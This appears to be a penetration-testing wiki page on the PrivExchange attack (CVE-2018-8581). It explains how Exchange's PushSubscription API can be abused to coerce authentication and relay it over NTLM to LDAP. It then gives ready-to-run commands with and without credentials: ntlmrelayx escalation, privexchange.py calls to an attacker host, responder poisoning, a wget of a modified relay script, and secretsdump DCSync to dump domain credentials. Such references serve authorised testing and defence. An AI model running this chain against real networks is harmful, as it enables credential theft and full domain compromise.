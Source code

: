 ```yaml
---
description: CVE-2018-8581
---
```


# PrivExchange

## Theory

PrivExchange relay on the [PushSubscription coerced authentication](../mitm-and-coerced-authentications/pushsubscription-abuse.md), PushSubscription is an API on Exchange Web Services that allows to subscribe to push notifications. Attackers abuse it to make Exchange servers authenticate to a target of their choosing. **The coerced authentication is made over HTTP**, which is particularly powerful when doing [NTLM relay](../ntlm/relay.md) ([because of the Session Signing and MIC mitigations](../ntlm/relay.md#mic-message-integrity-code)).&#x20;

As Exchange servers usually have high privileges in a domain (i.e. `WriteDacl`, see [Abusing ACLs](broken-reference)), the forced authentication can then be relayed and abused to obtain domain admin privileges (see [NTLM Relay](../ntlm/relay.md) and [Kerberos Unconstrained Delegations](../kerberos/delegations/#unconstrained-delegations-kud)).

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

## Practice

{% hint style="warning" %}
On February 12th 2019, Microsoft released updates for Exchange which resolved

* the coerced authentication issue
* the fact that Exchange servers had overkill permissions leading attacker to a full domain compromission.
{% endhint %}

{% tabs %}
{% tab title="Exploit - with creds" %}
First, start the NTLM relay that will escalate privileges

```bash
# NTLM relaying is used to relay connexion and give DCSync privileges
ntlmrelayx.py -t ldap://$DC --escalate-user $USER_TO_ESCALATE
```

Using [PrivExchange](https://github.com/dirkjanm/privexchange/), we can log in on Exchange Web Services and call the API. The user must have a mailbox to make the coerced authentication.

```bash
privexchange.py -d $DOMAIN -u '$DOMAIN_USER' -p '$PASSWORD' -ah $ATTACKER_IP $EXCHANGE_SERVER_TARGET
```

We can now dump domain credentials throught DCSync

```bash
secretsdump.py $DOMAIN/$USER_TO_ESCALATE@$DC -just-dc
```
{% endtab %}

{% tab title="Exploit - without creds" %}
If you don't have any credentials, it is still possible to [relay the authentication](../ntlm/relay.md) to make the API call. The [httpattack.py](https://github.com/dirkjanm/PrivExchange/blob/master/httpattack.py) script can be used with ntlmrelayx.py to perform this attack. It uses NTLM Relaying with LLMNR / NBT-NS to relay captured credentials over the network.

Using the modified httpattack.py, we can use ntlmrelayx to perform this attack.

```bash
#Backup the old httpattack.py
cd /PATH/TO/impacket/impacket/examples/ntlmrelayx/attacks/
mv httpattack.py httpattack.py.old

#Replace it
wget https://raw.githubusercontent.com/dirkjanm/PrivExchange/master/httpattack.py
#Edit the attacker_url parameter (the host to which Exchange will authenticate)
sed -i 's/attacker_url = .*$/attacker_url = "$ATTACKER_URL"/' httpattack.py

#Build the env
cd /PATH/TO/impacket
virtualenv venv && source venv/bin/activate
pip install .

#Start relay
ntlmrelayx.py -t https://exchange.server.EWS/Exchange.asmx
```

We can now use LLMNR/NBT-NS/mDNS poisoning with responder, to capture credentials and relay them:

```bash
responder -i eth0
```
{% endtab %}

{% tab title="Exploit - Auto" %}
[Exchange2domain](https://github.com/Ridter/Exchange2domain) is a all in One tools of Privexchange exploit. You only need to open the web server port, so no high privileges are required.

```bash
python2.7 Exchange2domain.py -ah attackterip -ap listenport -u user -p password -d domain.com -th DCip MailServerip
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/" %}
